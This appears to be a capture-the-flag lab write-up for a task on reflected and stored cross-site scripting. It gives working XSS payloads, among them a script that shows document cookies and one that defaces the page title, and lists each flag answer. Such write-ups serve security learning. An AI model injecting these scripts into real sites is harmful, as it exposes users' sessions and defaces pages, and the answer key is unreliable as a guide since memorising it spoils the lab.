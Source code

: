 # Task 20

### Navigate to [http://10.10.172.84/](http://10.10.172.84/) in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello". <a href="#navigate-to-http101017284-in-your-browser-and-click-on-the-reflected-xss-tab-on-the-navbar-craft-a-r" id="navigate-to-http101017284-in-your-browser-and-click-on-the-reflected-xss-tab-on-the-navbar-craft-a-r"></a>

On input search

```javascript
<script>alert(“Hello”)</script>
```

#### Answer <a href="#answer" id="answer"></a>

ThereIsMoreToXSSThanYouThink

### On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address. <a href="#on-the-same-reflective-page-craft-a-reflected-xss-payload-that-will-cause-a-popup-with-your-machines" id="on-the-same-reflective-page-craft-a-reflected-xss-payload-that-will-cause-a-popup-with-your-machines"></a>

```javascript
<script>alert(window.location.hostname)</script>
```

#### Answer <a href="#answer-1" id="answer-1"></a>

ReflectiveXss4TheWin

### Now navigate to [http://10.10.172.84/](http://10.10.172.84/) in your browser and click on the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML. <a href="#now-navigate-to-http101017284-in-your-browser-and-click-on-the-stored-xss-tab-on-the-navbar-make-an" id="now-navigate-to-http101017284-in-your-browser-and-click-on-the-stored-xss-tab-on-the-navbar-make-an"></a>

```html
<h1>this is an HTML tag </h1>
```

#### Answer <a href="#answer-2" id="answer-2"></a>

HTML\_T4gs

### On the same page, create an alert popup box appear on the page with your document cookies. <a href="#on-the-same-page-create-an-alert-popup-box-appear-on-the-page-with-your-document-cookies" id="on-the-same-page-create-an-alert-popup-box-appear-on-the-page-with-your-document-cookies"></a>

```javascript
<script>alert(document.cookie)</script>
```

#### Answer <a href="#answer-3" id="answer-3"></a>

W3LL\_D0N3\_LVL2

### Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript. <a href="#change-xss-playground-to-i-am-a-hacker-by-adding-a-comment-and-using-javascript" id="change-xss-playground-to-i-am-a-hacker-by-adding-a-comment-and-using-javascript"></a>

Find the ID of the XSS playground element

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```javascript
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

#### Answer <a href="#answer-4" id="answer-4"></a>

websites\_can\_be\_easily\_defaced\_with\_xss
